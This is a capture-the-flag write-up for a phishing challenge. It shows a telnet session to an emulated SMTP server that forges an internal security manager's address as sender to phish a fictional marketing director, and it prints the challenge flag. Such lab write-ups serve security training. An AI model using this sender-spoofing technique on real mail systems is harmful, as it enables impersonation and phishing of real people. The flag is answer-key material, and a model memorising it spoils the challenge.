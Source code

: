 ![red-phish-blue-phish-ss1.png](red-phish-blue-phish-ss1.png)

# Red Phish Blue Phish: Miscellaneous  

Author: Truman Kain (@truman.huntress), Adam Rice (@adam.huntress)  

You are to conduct a phishing excercise against our client, Pyrch Data.  

We've identified the Marketing Director, Sarah Williams (swilliams@pyrchdata.com), as a user susceptible to phishing.  

Are you able to successfully phish her? Remember your OSINT ;)  

```
NOTE: The port that becomes accessible upon challenge deployment is an SMTP server. Please use this for sending any phishing emails.  
You will not receive an email/human response as the mail infrastructure for this challenge is emulated.  
```  

Press the Start button on the top-right to begin this challenge.  

## SOLUTION:							    
Send a phishing email
> $ telnet challenge.ctf.games [port]  

> used telnet because netcat was broken  
```
Trying 35.193.148.143...
Connected to challenge.ctf.games.
Escape character is '^]'.
220 red-phish-blue-phish-20e3125859462627-7584c7974d-g697f Python SMTP 1.4.6

> HELO pyrchdata.com						## initiate mail process
250 red-phish-blue-phish-20e3125859462627-7584c7974d-g697f

> MAIL FROM: jdaveren@pyrchdata.com				## OSINT --> IT Security Manager
250 OK

> RCPT TO: swilliams@pyrchdata.com				## phishing target
250 OK

> DATA								## input data for phishing email
354 End data with <CR><LF>.<CR><LF>

> From: jdaveren@pyrchdata.com					## From: "convincing sender"
> To: swilliams@pyrchdata.com					## To: "phishing target"
> Subject: Urgent						##
> Optional filler text here.					##
> .								## send a period to submit email
								## this would break in netcat
250 OK. flag{54c6ec05ca19565754351b7fcf9c03b2}
```
